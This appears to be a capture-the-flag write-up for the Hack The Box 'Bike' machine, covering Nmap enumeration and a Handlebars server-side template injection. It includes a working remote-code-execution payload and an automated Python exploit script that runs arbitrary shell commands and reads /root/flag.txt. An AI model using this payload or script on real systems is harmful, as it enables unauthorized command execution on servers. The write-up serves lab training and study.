 ﻿# HTB Bike - SSTI Exploit Write-up

# Overview
**HTB Bike** is a *Hack The Box* machine that involves exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a **Node.js Handlebars template engine**. This write-up provides a detailed walkthrough of the exploitation process and includes a fully automated **SQLmap-styled** exploit script.

---

# Enumeration

# **🔍 Nmap Scan**
We start by scanning the target with **Nmap**:

```bash
nmap -sC -sV -p- 10.129.6.196
```

This reveals:
- **Port 22 (SSH)** - Ignored (no creds available).
- **Port 80 (HTTP)** - Running an **Express.js** server.

### **🔍 Identifying SSTI**
When interacting with the email subscription form on the web page, our input is reflected back:

```html
We will contact you at: <input>
```

We test for **Server-Side Template Injection (SSTI)** using:

```bash
curl -X POST http://10.129.6.196/ -d "email={{7*7}}"
```

If the response contains `49`, **the site is vulnerable!** ✅

---

# Exploitation

# **🔗 Exploit Payload**
Using **Handlebars SSTI**, we craft a payload that executes system commands:

```handlebars
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami').toString();"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

This **bypasses sandboxing** and allows **Remote Code Execution (RCE)**!

---

# 🚀 Automating the Exploit

We use a **fully automated Python script** with:
✅ **SQLmap-style output**  
✅ **Fancy ASCII banner**  
✅ **JSON debugging for failed extractions**  

# **📜 Proof of Concept (PoC) Exploit Script**

```python
import requests
import re
import json
import time
import sys
from pyfiglet import Figlet

# Colors for output formatting (SQLmap-style)
RED = "\033[1;91m"
GREEN = "\033[1;92m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
CYAN = "\033[1;96m"
WHITE = "\033[1;97m"
RESET = "\033[0m"

# Target URL
TARGET = "http://10.129.6.196/"

# Headers for the request
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fancy banner
def print_banner():
    """Displays a fancy ASCII banner using pyfiglet."""
    f = Figlet(font="smmono9")  # Ensure this font is installed, or pick another
    banner_text = f.renderText("BikePwn")

    print(f"{CYAN}{banner_text}{RESET}")
    print("=" * 80)
    print(f"{CYAN}  Server-Side Template Injection Exploit - HTB Bike {RESET}")
    print(f"{CYAN}  Made by #AfterDark {RESET}")
    print("=" * 80)
    print(f"{YELLOW}[!] DISCLAIMER: Use this tool for authorized testing only. {RESET}")
    print(f"{YELLOW}    The author assumes no liability for misuse. {RESET}")
    print("=" * 80)

# Function to display SQLmap-style log messages
def log_message(level, message):
    timestamp = time.strftime("%H:%M:%S")
    symbols = {"INFO": f"{BLUE}[{timestamp}] [INFO] {RESET}",
               "SUCCESS": f"{GREEN}[{timestamp}] [SUCCESS] {RESET}",
               "WARNING": f"{YELLOW}[{timestamp}] [WARNING] {RESET}",
               "ERROR": f"{RED}[{timestamp}] [ERROR] {RESET}"}
    
    print(f"{symbols[level]}{message}")

# Function to check SSTI vulnerability
def check_ssti():
    payload = "{{7*7}}"
    data = {"email": payload}
    
    try:
        response = requests.post(TARGET, headers=HEADERS, data=data)
        if "49" in response.text or "error" in response.text:
            log_message("SUCCESS", "SSTI vulnerability detected!")
            return True
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error during SSTI check: {e}")
    
    log_message("WARNING", "SSTI does not seem to be present.")
    return False

# Function to execute a command via SSTI
def execute_command(cmd):
    """Executes a command using SSTI and prints debug info."""
    log_message("INFO", f"Executing command: {cmd}")

    ssti_payload = f"""{{{{#with "s" as |string|}}}}
{{{{#with "e"}}}}
{{{{#with split as |conslist|}}}}
{{{{this.pop}}}}
{{{{this.push (lookup string.sub "constructor")}}}}
{{{{this.pop}}}}
{{{{#with string.split as |codelist|}}}}
{{{{this.pop}}}}
{{{{this.push "return process.mainModule.require('child_process').execSync('{cmd}').toString();"}}}}
{{{{this.pop}}}}
{{{{#each conslist}}}}
{{{{#with (string.sub.apply 0 codelist)}}}}
{{{{this}}}}
{{{{/with}}}}
{{{{/each}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}"""

    data = {"email": ssti_payload}

    try:
        response = requests.post(TARGET, headers=HEADERS, data=data, timeout=10)
        return response.text.strip()
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error: {e}")
        return "[-] Command execution failed."

# Function to get the flag
def get_flag():
    log_message("INFO", "Fetching flag from /root/flag.txt")
    flag = execute_command("cat /root/flag.txt")

    if len(flag) > 5:
        log_message("SUCCESS", f"Flag: {flag}")
    else:
        log_message("WARNING", "Could not retrieve the flag.")

# Main function
def main():
    print_banner()
    
    log_message("INFO", "Starting SSTI Exploit for Bike HTB Machine")

    if check_ssti():
        log_message("INFO", "Checking user privileges...")
        user = execute_command("whoami")
        log_message("SUCCESS", f"Running as: {user}")

        get_flag()
    else:
        log_message("ERROR", "SSTI exploitation failed.")

if __name__ == "__main__":
    main()
```

---

# 📜 Conclusion
This challenge demonstrates **how dangerous SSTI can be**, especially in **Node.js-based applications**. The exploit works by **breaking out of the Handlebars sandbox** and gaining **full system control**.

---
🛠️ **Credits:**  
💀 Developed by **#AfterDark**  
🔗 [CyberDepot](https://infosec-db.github.io/CyberDepot/) - More Exploits & Writeups  
